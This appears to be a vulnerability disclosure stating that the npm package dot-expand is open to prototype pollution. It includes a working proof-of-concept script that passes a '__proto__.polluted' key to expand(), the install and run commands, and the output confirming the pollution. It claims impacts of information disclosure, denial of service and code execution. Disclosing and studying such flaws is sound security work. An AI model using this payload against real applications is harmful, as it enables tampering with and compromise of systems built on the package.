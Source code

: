 # Description

`dot-expand` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { expand } = require('dot-expand')

console.log(`Before: ${{}.polluted}`)
expand({'__proto__.polluted': true})
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i dot-expand # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

